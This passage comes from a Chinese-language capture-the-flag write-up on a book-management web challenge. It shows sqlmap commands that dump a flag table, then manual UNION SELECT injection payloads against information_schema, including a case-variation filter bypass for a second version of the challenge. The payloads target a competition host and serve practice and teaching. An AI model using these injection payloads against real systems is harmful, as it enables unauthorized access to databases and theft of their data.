 ```
python sqlmap.py -u "http://1.container.jingsai.apicon.cn:30956/books/1" -D book -T secret --columns
```

+--------+-----------+
| Column | Type      |
+--------+-----------+
| fl4g   | char(255) |
+--------+-----------+

```
python sqlmap.py -u "http://1.container.jingsai.apicon.cn:30956/books/1" -D book -T secret -C fl4g --dump
```

Database: book
Table: secret
[1 entry]
+--------------------------------+
| fl4g                           |
+--------------------------------+
| VIDAR{i^Learned_Sql$Inject1on} |
+--------------------------------+

2.手动注入

1'UNION SELECT 1,table_name,1 FROM information_schema.tables LIMIT 2,1 ;%00

```
Vidar-Team has 1 books called secret
```

表名是secret

1' UNION SELECT 1, column_name, 1 FROM information_schema.columns WHERE table_name = 'secret' LIMIT 1,1;%00

```
Vidar-Team has 1 books called fl4g
```

字段名是fl4g

1'UNION SELECT 1,fl4g,1 FROM secret LIMIT 1,1 ;%00

```
Vidar-Team has 1 books called VIDAR{i^Learned_Sql$Inject1on}
```

flag:`VIDAR{i^Learned_Sql$Inject1on}`

### Book Management System_V2

类似第一题,不过不太方便使用sqlmap,就是手注+大小写绕过.

1'Union Select 1,table_name,1 From infoRmation_schema.tables LIMIT 2,1 ;%00
